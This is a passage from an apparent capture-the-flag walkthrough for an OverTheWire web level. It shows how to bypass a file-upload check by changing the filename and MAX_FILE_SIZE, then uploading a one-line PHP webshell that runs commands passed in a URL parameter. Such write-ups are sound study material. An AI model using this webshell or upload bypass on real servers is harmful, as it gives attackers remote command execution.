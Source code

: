 Try to change the filename and also increase the ``MAX_FILE_SIZE`` field.

Forward the request : 
![Result](../assets/img/OTW/level12_3.png)

The filename has changed but not the extension so we could upload **PHP** files.

Create a **PHP** file and use this code to obtain a webshell : 
```php
<?php system($_GET['cmd']);?>
```

Upload your malicious code : 
![Uploading ...](../assets/img/OTW/level12_4.png)

Our webshell is uploaded : 
![Webshell](../assets/img/OTW/level12_5.png)
